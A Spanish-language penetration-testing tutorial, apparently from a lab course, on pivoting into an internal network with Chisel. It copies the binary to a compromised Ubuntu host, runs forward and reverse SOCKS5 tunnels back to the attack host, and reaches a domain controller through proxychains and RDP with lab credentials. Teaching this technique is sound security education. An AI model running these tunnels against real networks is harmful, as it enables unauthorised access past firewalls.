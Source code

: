 [Chisel](https://github.com/jpillora/chisel) es una herramienta de tunelización basada en TCP/UDP escrita en [Go](https://go.dev/) que utiliza HTTP para transportar datos asegurados mediante SSH. `Chisel` puede crear una conexión de túnel cliente-servidor en un entorno restringido por firewall. Consideremos un escenario donde tenemos que tunelizar nuestro tráfico a un servidor web en la red `172.16.5.0/23` (red interna). Tenemos el Domain Controller con la dirección `172.16.5.19`. Este no es directamente accesible desde nuestro host de ataque, ya que nuestro host de ataque y el Domain Controller pertenecen a diferentes segmentos de red. Sin embargo, dado que hemos comprometido el servidor Ubuntu, podemos iniciar un servidor Chisel en él que escuchará en un puerto específico y reenviará nuestro tráfico a la red interna a través del túnel establecido.

## Setting Up & Using Chisel

Antes de que podamos usar Chisel, necesitamos tenerlo en nuestro host de ataque. Si no tenemos Chisel en nuestro host de ataque, podemos clonar el repositorio del proyecto usando el comando directamente a continuación:

### Cloning Chisel

```r
git clone https://github.com/jpillora/chisel.git
```

Necesitaremos el lenguaje de programación `Go` instalado en nuestro sistema para construir el binario de Chisel. Con Go instalado en el sistema, podemos movernos a ese directorio y usar `go build` para construir el binario de Chisel.

### Building the Chisel Binary

```r
cd chisel
go build
```

Puede ser útil tener en cuenta el tamaño de los archivos que transferimos a los objetivos en las redes de nuestros clientes, no solo por razones de rendimiento, sino también considerando la detección. Dos recursos útiles para complementar este concepto particular son la publicación del blog de Oxdf "[Tunneling with Chisel and SSF](https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html)" y la explicación de IppSec de la caja `Reddish`. IppSec comienza su explicación de Chisel, construyendo el binario y reduciendo el tamaño del binario en el minuto 24:29 de su [video](https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=1469s).

Una vez que el binario esté construido, podemos usar `SCP` para transferirlo al host de pivote objetivo.

### Transferring Chisel Binary to Pivot Host

```r
scp chisel ubuntu@10.129.202.64:~/
 
ubuntu@10.129.202.64's password: 
chisel                                        100%   11MB   1.2MB/s   00:09    
```

Luego podemos iniciar el servidor/listener de Chisel.

### Running the Chisel Server on the Pivot Host

```r
ubuntu@WEB01:~$ ./chisel server -v -p 1234 --socks5

2022/05/05 18:16:25 server: Fingerprint Viry7WRyvJIOPveDzSI2piuIvtu9QehWw9TzA3zspac=
2022/05/05 18:16:25 server: Listening on http://0.0.0.0:1234
```

El listener de Chisel escuchará conexiones entrantes en el puerto `1234` usando SOCKS5 (`--socks5`) y las reenviará a todas las redes que sean accesibles desde el host de pivote. En nuestro caso, el host de pivote tiene una interfaz en la red 172.16.5.0/23, lo que nos permitirá llegar a los hosts en esa red.

Podemos iniciar un cliente en nuestro host de ataque y conectarnos al servidor de Chisel.

### Connecting to the Chisel Server

```r
./chisel client -v 10.129.202.64:1234 socks

2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

Como puedes ver en la salida anterior, el cliente de Chisel ha creado un túnel TCP/UDP vía HTTP asegurado con SSH entre el servidor de Chisel y el cliente y ha comenzado a escuchar en el puerto 1080. Ahora podemos modificar nuestro archivo proxychains.conf ubicado en `/etc/proxychains.conf` y agregar el puerto `1080` al final para que podamos usar proxychains para pivotar usando el túnel creado entre el puerto 1080 y el túnel SSH.

### Editing & Confirming proxychains.conf

Podemos usar cualquier editor de texto que queramos para editar el archivo proxychains.conf y luego confirmar nuestros cambios de configuración usando `tail`.

```r
tail -f /etc/proxychains.conf 

#
#       proxy types: http, socks4, socks5
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

Ahora, si usamos proxychains con RDP, podemos conectarnos al DC en la red interna a través del túnel que hemos creado al host de pivote.

### Pivoting to the DC

```r
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

---

## Chisel Reverse Pivot

En el ejemplo anterior, usamos la máquina comprometida (Ubuntu) como nuestro servidor Chisel, listando en el puerto 1234. Sin embargo, puede haber escenarios en los que las reglas del firewall restrinjan las conexiones entrantes a nuestro objetivo comprometido. En tales casos, podemos usar Chisel con la opción reversa.

Cuando el servidor Chisel tiene `--reverse` habilitado, los remotos pueden tener el prefijo `R` para denotar revertido. El servidor escuchará y aceptará conexiones, y serán proxied a través del cliente, que especificó el remoto. Los remotos revertidos que especifican `R:socks` escucharán en el puerto socks predeterminado del servidor (1080) y terminarán la conexión en el proxy SOCKS5 interno del cliente.

Iniciaremos el servidor en nuestro host de ataque con la opción `--reverse`.

### Starting the Chisel Server on our Attack Host

```r
sudo ./chisel server --reverse -v -p 1234 --socks5

2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

Luego, nos conectamos desde el Ubuntu (host de pivote) a nuestro host de ataque, usando la opción `R:socks`.

### Connecting the Chisel Client to our Attack Host

```r
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks

2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

Podemos usar cualquier editor que queramos para editar el archivo proxychains.conf y luego confirmar nuestros cambios de configuración usando `tail`.

### Editing & Confirming proxychains.conf

```r
tail -f /etc/proxychains.conf 

[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080 
```

Si usamos proxychains con RDP, podemos conectarnos al DC en la red interna a través del túnel que hemos creado al host de pivote.

```r
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

**Nota:** Si estás recibiendo un mensaje de error con chisel en el objetivo, intenta con una versión diferente.